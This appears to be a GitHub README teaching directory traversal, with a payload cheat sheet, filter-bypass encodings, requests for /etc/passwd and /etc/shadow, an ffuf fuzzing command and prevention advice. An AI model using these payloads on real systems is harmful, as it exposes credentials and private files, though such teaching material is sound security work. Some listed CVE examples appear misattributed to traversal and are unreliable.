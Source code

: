 # Directory Traversal / Path Traversal

## Overview
Directory traversal, also known as path traversal, is a security vulnerability that allows an attacker to access files and directories stored outside the intended web root folder. Exploiting this flaw may lead to unauthorized access to sensitive files, configuration files, or even system-level resources.

## How It Works
This vulnerability arises when user-supplied input is not properly sanitized before being used in file system operations. By injecting special characters like `../` (dot-dot-slash), attackers can manipulate file paths to traverse up the directory structure and access restricted files.

### Example Request
```
GET /files/../../../etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
### Example URL
```bash
https://target.com/image?file=../../../../etc/passwd
``` 

## 🔐 Payload Cheat Sheet

### Basic Traversals
- `../` — Unix-style path traversal
- `..\\` — Windows-style path traversal
- `../../etc/passwd` — Multi-level traversal
- `..%2F` — URL-encoded `../`
- `..%5C` — URL-encoded `..\\`

### Obfuscated / Filter Bypass Payloads
- `..%252f` — Double-encoded `../`
- `....//....//` — Trick filters into allowing traversal
- `....\\\\....\\\\` — Windows obfuscation
- `%2e%2e%2f` — Encoded `../`
- `%2e%2e/` — Alternative encoding
- `..%c0%af` — Unicode-encoded slash
- `../../../etc/passwd%00.png` — Null byte injection to bypass file extensions

## 🗂 Common Target Files
- `/etc/passwd` — Linux user accounts
- `/etc/shadow` — Linux password hashes
- `/proc/self/environ` — Environment variables
- `.env` — Environment configuration (contains secrets)
- `WEB-INF/web.xml` — Java web app config
- `C:\Windows\win.ini` — Windows system config

## 💥 Impact
- Disclosure of sensitive configuration files
- Leakage of credentials or API keys
- Access to application source code
- Information leakage about server or environment
- Possibility of remote code execution (via chained exploits)

## 🛠 Tools for Testing

### Dedicated Tools
- [dotdotpwn](https://github.com/wireghoul/dotdotpwn) - Automated directory traversal tool  

### Common Tools
- [Ffuf](https://github.com/ffuf/ffuf) - Fuzz faster U Fool
- [Burp Suite](https://portswigger.net/burp) - Web vulnerability scanner
- [OWASP ZAP](https://www.zaproxy.org/) - Open-source web application security scanner
- [DirBuster](https://www.owasp.org/index.php/Category:DirBuster) - Directory brute-forcing tool
- [Nikto](https://cirt.net/Nikto2) - Web server scanner

### Ffuf Example
```bash
ffuf -u https://vulnerable-website.com/image?filename=FUZZ -w /path/to/wordlist.txt -fs 1234 -fc 403
``` 

## Articles
- [Practical Guide Path Traversal Attacks](https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks)
- [A Guide to Directory Traversal Vulnerability in 2024](https://medium.com/@certcube1/a-guide-to-directory-traversal-vulnerability-in-2024-50c5fafd0796)


## 📚 Resources(Practice)
- [PortSwigger - Directory Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP - Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [Acunetix - Directory Traversal](https://www.acunetix.com/websitesecurity/directory-traversal/)

## 🧨 CVE Examples
- [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638) - Apache Struts
- [CVE-2021-22986](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22986) - F5 BIG-IP
- [CVE-2020-1938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938) - Apache Tomcat (Ghostcat)
- [CVE-2020-36289](https://nvd.nist.gov/vuln/detail/CVE-2020-36289) - OpenAsset traversal with `....//....//`

## 🛡️ Prevention

1. **Sanitize and Validate Input**  
   - Reject dangerous characters and patterns like `../`, `%00`, or encoded traversal sequences.  
   - Use allow-lists for filenames and extensions.

2. **Use Secure File APIs**  
   - Normalize file paths using secure functions (e.g., `realpath()` in PHP or Python).

3. **Enforce Access Controls**  
   - Restrict file access using file system permissions and sandboxing techniques.

4. **Monitor and Log Access**  
   - Log all file access attempts and monitor for repeated suspicious behavior.

5. **Perform Regular Audits**  
   - Conduct regular penetration testing, source code reviews, and use static analysis tools.

---

## 🎯 Happy Hunting! 👾
